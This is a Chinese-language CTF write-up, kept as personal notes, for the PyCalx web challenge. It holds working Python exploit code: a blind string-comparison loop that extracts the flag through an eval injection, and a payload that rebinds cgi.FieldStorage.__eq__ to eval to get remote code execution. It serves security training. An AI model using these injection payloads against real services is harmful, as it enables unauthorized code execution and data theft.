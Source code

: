 tags:: [[CTFWEB/Python]]

- > 这题是在buuctf上复现的，buuctf提供的环境中Python环境为3.5.2，和原题不相同，导致PyCalx2无法做出（其解法依赖f-string)
- # 思路
	- 思路1：通过类似SQL布尔盲注的方式读取flag
	- 思路2：通过赋值魔术方法进行函数调用，实现RCE
	- 套路：
		- 可以通过控制source变量拿到任意字符串
		- 可以通过在集合内使用集合生成式，用`for`进行赋值
		- 可以让`op="+'"`实现字符逃逸
- # 布尔盲注读取flag
	- 可以通过对比字符串进行布尔盲注
	- 控制value1和value2的值让eval的表达式变成`'a'+''+FLAG>=source`
	- 然后通过控制source的值进行布尔盲注
	- ```python
	  known = ""
	  while True:
	      for i in range(32, 128):
	          r = base_get(url, params = {
	              "source": "a" + known + chr(i),
	              "value1": "a",
	              "op": "+'",
	              "value2": "+FLAG>=source#"
	          })
	          data = r.text.rpartition(">>>>")[2]
	          if "False" in data:
	              if i == 32:
	                  continue
	              known += chr(i - 1)
	              print(known)
	              break
	      else:
	          break
	  print(known)
	  ```
- # RCE
	- 将某个类的`__eq__`魔术方法换成eval, 然后通过对比调用`__eq__`即可调用eval进行RCE
	- 原理示例
		- ```python
		  import cgi
		  
		  fs = cgi.FieldStorage()
		  cgi.FieldStorage.__eq__ = eval
		  fs == "print(114514)" # 会打印114514
		  ```
	- 为了绕过一个eval只能运行一个表达式的限制，我们将上面的三个语句改写成set
		- ```python
		  import cgi
		  
		  arguments = cgi.FieldStorage()
		  {1 for cgi.FieldStorage.__eq__ in {eval, }} *\
		  {arguments == "print(114514)" for _ in {1, }}
		  ```
	- 根据上面的原理写exp即可，注意这里需要使用乘号控制执行顺序
		- ```python
		  payload = "__import__('time').sleep(5)"
		  r = requests.get(url, params = {
		      "source": payload,
		      "value1": "T",
		      "op": "+'",
		      "value2": "+{1 for cgi.FieldStorage.__eq__ in {eval}}*{arguments==source}#"
		  })
		  
		  data = r.text.rpartition(">>>>")[2]
		  print(data)
		  # print("False\n>>>" in data)
		  ```
- # 施工中
	- 任意字符串：使用`source`变量
	- 可以：
		- 赋值：直接使用`=`
		- 修改魔术方法
		- 使用类似布尔盲注的方式读取flag
		- 单引号逃逸
			- op: `+'`
